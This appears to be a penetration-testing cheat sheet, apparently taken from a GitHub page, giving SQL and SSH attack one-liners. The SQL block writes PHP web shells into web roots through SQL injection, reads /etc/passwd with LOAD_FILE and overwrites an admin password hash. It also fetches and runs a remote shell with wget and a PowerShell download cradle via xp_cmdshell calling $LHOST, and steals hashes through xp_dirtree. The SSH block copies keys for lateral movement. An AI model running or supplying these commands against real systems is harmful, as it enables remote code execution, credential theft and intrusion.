     ## SQL 🦖
    
    ```bash
    #connect via sqsh setting a config
    sqsh -S Meathead
    # SQL beyond credential extraction
    union select "1",(select '<?php echo system($_REQUEST["cmd"]); ?>'),"3","4","5","6","7","8" INTO OUTFILE '/var/www/html/cmd.php'-- -
    ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
    # ASCII Hex encode to prevent breaking the line; /etc/passwd = 2f6574632f706173737764 
    odm_user UNION SELECT 1,LOAD_FILE(0x2f6574632f706173737764),3,4,5,6,7,8,9
    # generate a new password [https://phppasswordhash.com/](https://phppasswordhash.com/) 
    MySQL [osclass]> update oc_t_admin set s_password=('$2y$10$4aIRqwdwz3BuV2xzZ789zeYHsD8kQWp9Oip/T10g1Oge8D89kCW2i') where s_username='admin';
    MySQL [osclass]> select "<?php system('wget $LHOST/shell -O /tmp/shell;chmod 777 /tmp/shell;/tmp/shell'); ?>" into outfile '/tmp/shell.php';
    #For windows 
    SQL> xp_cmdshell "powershell iex(new-object system.net.webclient).downloadstring("""http://$LHOST/1n.ps1""")"
    #if not enabled
    select IS_SRVROLEMEMBER ('sysadmin')
    enable_xp_cmdshell
    #If I can’t execute commands using xp_cmdshell I can steal hashes of the SQL service account by using xp_dirtree or xp_fileexist.
    # check out more in HTB Querier
    exec xp_dirtree '\\$LHOST\share\file'
    exec xp_fileexist '\\$LHOST\share\file'
    ```
    
    ```bash
    ssh -o StrictHostKeyChecking=no tom@$RHOST
    #get files from max
    scp -i id_rsa -rp /home/max/ max@$RHOST:/home/max
    #send keys to max
    scp -i id_rsa /home/max/authorized_keys max@$RHOST:/home/max/.ssh
    #ssh port forward
    [commander@nukem .vnc]$ 
    ssh> -L 5901:127.0.0.1:5901
    kali@kali:~$ sudo ssh -L 80:192.168.120.209:80 ariah@192.168.120.209
    ```
    

# Enumeration
